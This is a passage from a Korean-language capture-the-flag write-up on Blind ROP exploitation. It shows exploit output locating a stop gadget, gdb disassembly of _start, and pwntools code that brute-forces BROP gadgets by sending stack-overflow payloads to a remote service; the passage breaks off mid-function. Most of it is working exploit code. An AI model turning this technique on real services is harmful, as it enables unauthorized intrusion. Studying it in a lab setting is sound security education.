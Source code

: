 ```shell
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] Overflow size : 72
[+] Searching for Stop gadget: Done
[*] Progress to 0x100
[*] Progress to 0x200
[*] Progress to 0x300
[*] Progress to 0x400
[*] Progress to 0x500
[*] Stop Address : 0x4005c0
```

해당 주소는 _start() 함수의 시작주소이다.

```
gdb-peda$ x/3i 0x4005c0
   0x4005c0 <_start>:	xor    ebp,ebp
   0x4005c2 <_start+2>:	mov    r9,rdx
   0x4005c5 <_start+5>:	pop    rsi
```

#### **Check BROP Gadget**

POP Instruction이 6개인 BROP를 찾는다.

```python
def find_brop_gadget(size,stop_gadget):
	p = log.progress('Searching for BROP Gadget')
	base = 0x400000
	for offset in range(0x700,0x1000):
		if offset % 0x100 == 0:
			log.info('Progressed to 0x%x'%offset)
		
		addr = base + offset

		if maybe_brop_gadget(size,stop_gadget,addr):
			log.info('Maybe BROP Gadget : '+str(hex(addr)))
			if is_brop_gadget(size,addr):
				p.success('Done')
				log.info('Found BROP Gadget : '+str(hex(addr)))
				return addr

# Paylaod에 BROP Gadget을 찾기 위해 Return address 영역 뒤에 레지스터에 저장할 값을 저장하고 마지막에 Stop Gadget을 저장
def maybe_brop_gadget(size,stop_gadget,addr):
	try:
		payload = ''
		payload += "A"*size
		payload += p64(addr)
		payload += p64(0)*6
		payload += p64(stop_gadget)

		r = remote(ip,port,level='error')
		r.recvline()
		r.sendline(payload)
		recv = r.recv(timeout=0.2)
		r.close()
		if 'WelCome my friend,Do you know password?' in recv:
			return True
		return False

	except Exception as e:
		r.close()
		return False

# BROP Gadget으로 추측되는 주소만을 사용해서 전달하여 예외가 발생하면 BROP Gadget으로 판단
def is_brop_gadget(size,addr):
```